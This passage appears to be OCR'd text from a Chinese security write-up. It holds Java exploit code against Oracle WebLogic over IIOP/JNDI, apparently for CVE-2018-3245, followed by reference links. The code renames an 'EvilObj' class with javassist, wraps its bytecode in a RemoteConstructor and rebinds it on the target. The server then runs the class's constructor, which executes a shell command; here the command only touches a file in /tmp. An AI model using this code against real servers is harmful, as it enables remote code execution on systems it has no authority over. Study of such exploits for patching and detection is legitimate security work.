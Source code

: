 env.put("java.naming.factory.initial", "weblogic.jndi.WLInitialContextFactory");        env.put(Context.PROVIDER_URL, rhost);        Context context = new InitialContext(env);        ClassIdentity classIdentity = new ClassIdentity(EvilObj.class);        ClassPool cp = ClassPool.getDefault();        CtClass ctClass = cp.get(EvilObj.class.getName());        ctClass.replaceClassName(EvilObj.class.getName(),  EvilObj.class.getName() + "$" + classIdentity.getVersion());        RemoteConstructor constructor = new RemoteConstructor(                new ClassDefinition(classIdentity, ctClass.toBytecode()),                new Object[] {}        );// 发送 IIOP 协议数据包//        context.bind("hello",new Object());        context.rebind("hello",constructor);    }}//EvilObj.classpublic class EvilObj {    public EvilObj() {        try {            Runtime.getRuntime().exec("touch /tmp/success222");        } catch (IOException var1) {            var1.printStackTrace();        }    }}后记参考：https://tttang.com/archive/1800/#toc_cve-2018-3245https://www.anquanke.com/post/id/225137#h3-1https://xz.aliyun.com/t/2479https://paper.seebug.org/1069/  
  
  
